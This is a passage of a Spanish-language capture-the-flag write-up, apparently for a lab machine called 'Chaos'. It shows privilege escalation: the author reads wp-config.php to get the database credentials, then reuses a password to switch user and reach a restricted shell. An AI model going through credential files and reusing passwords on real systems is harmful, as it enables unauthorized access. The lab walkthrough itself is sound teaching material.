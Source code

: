 ## Privilege Escalation (First Method)

Obtenemos el `usuario` y la `contraseña` de la base de datos de `WordPress`

```
www-data@chaos:/var/www/wordpress$ cat wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://codex.wordpress.org/Editing_wp-config.php
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wp');

/** MySQL database username */
define('DB_USER', 'roundcube');

/** MySQL database password */
define('DB_PASSWORD', 'inner[OnCag8');
```

Nos convertimos en `Ayush` reutilizando la contraseña `jiujitsu`, pero nos encontramos en una `restricted bash`

```
www-data@chaos:/var/www/wordpress$ su ayush
Password: 
ayush@chaos:/var/www/wordpress$ whoami
rbash: /usr/lib/command-not-found: restricted: cannot specify `/' in command names
ayush@chaos:/var/www/wordpress$ cd /
rbash: cd: restricted
ayush@chaos:/var/www/wordpress$ echo $SHELL
/opt/rbash
```

Si pulsamos el `tabulador` dos veces, nos salen todos los `comandos` que podemos `ejecutar`
